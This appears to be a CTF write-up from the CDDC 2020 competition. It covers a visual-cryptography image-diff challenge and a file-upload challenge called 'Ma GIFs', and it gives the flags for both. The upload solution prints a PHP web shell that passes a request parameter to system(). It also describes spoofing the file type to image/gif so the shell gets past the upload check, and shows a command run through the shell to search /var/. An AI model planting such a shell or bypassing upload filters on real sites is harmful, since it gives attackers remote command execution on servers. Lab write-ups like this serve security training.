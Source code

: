 Attached Files: [so-noisy.png](./attached_files/so-noisy.png)
Attached Files: [much-confusing.png](./attached_files/much-confusing.png)

**Solution**

Tool used: https://www.diffchecker.com/image-diff

![](./screenshots/visual_noise.png)

**Flag**

```
CDDC20{V1suAl_CrYPT0_iS_s0_53cuRE}
```

## Ma GIFs

**Challenge**

Well apparently, the CTO of Unduplicitous Corp love, love, LOVE GIFs! ;)

http://magifs.chall.cddc2020.nshc.sg:13373/

**Solution**

upload a php file 

```php
    <?php
        $cmd = $_GET['cmd'];
        system($cmd)
    ?>
```

Use burp suite to change the file type from application/php to image/gif

Once php file uploaded, go to http://magifs.chall.cddc2020.nshc.sg:13373/uploads/filename.php?cmd=grep%20-r%20%2220%22%20/var/ to find the flag

![](./screenshots/gif.png)

**Flag**

```
CDDC20{w0W_u_hAz_FlaG!!h3he}
```
